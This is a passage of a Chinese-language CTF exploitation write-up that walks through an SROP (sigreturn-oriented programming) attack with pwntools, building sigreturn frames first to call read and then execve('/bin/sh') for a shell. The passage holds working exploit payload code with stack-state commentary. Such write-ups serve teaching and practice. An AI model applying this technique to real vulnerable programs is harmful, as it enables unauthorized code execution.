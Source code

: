   ```python
  #构造frame,表示read(0,stack_addr,0x400)
  frame = SigreturnFrame(kernel = "amd64")
  frame.rax = constants.SYS_read
  frame.rdi = 0x0
  frame.rsi = stack_addr
  frame.rdx = 0x400
  frame.rsp = stack_addr
  frame.rip = syscall_addr
  payload = p64(main_addr) + p64(0) + str(frame)
  p.send(payload)
  ```

  因为程序是重新在main_addr开始执行，发送payload后使用read函数将payload写入栈中，此时的栈情况如图<5>

  此时的esp指向的是我们写入的main_addr,ret后程序继续返回到main_addr,而esp指向的是下一个地址，程序继续调用read函数，我们发送payload写入栈中

  ```
  #通过控制输入的字符数量，调用sigreturn
  payload = p64(syscall_addr) + "\x00"*(15-8)
  p.send(payload)  
  ```

  此时的栈情况如图<6>：

  esp指向我们写入的syscall_addr地址，由于我们成功写入了15个字符，故此时的eax为15，程序ret返回到syscall_addr处进行系统调用，此时的系统调用号存储在eax正好是15，调用sigreturn，根据frame设定的结构，程序接下来会执行read(0,stack_addr,0x400)

+ 使用pwntools的SigreturnFrame构造shell

  此时函数执行的是read(0,stack_addr,0x400)，需要等待我们的输入，我们继续构造frame(execve)

  ```
  frame = SigreturnFrame(kernel = "amd64")
  frame.rax = constants.SYS_execve
  frame.rdi = stack_addr + 0x150    #binsh字符串的地址，后面会构造
  frame.rsi = 0x0
  frame.rdx = 0x0
  frame.rsp = stack_addr
  frame.rip = syscall_addr
  frame_payload = p64(main_addr) + p64(0) +str(frame)
  payload = frame_payload + (0x150-len(frame_payload))*"\x00" + "/bin/sh\x00"
  p.send(payload)
  ```

  将payload写入到栈中，此时的栈情况如图<7>

  此时esp指向的是我们写入的main_addr,执行ret，返回至main_addr,而esp指向下一个地址，即p64(0)处，继续调用read，等待我们输入payload

  ```
  payload = p64(syscall_addr) + "\x00"*(15-8)
  p.send(payload)
  ```

  此时栈情况如图<8>

  esp指向我们写入的syscall_addr地址，由于我们成功写入了15个字符，故此时的eax为15，程序ret返回到syscall_addr处进行系统调用，此时的系统调用号存储在eax正好是15，调用sigreturn，根据frame设定的结构，程序接下来会执行system(execve)
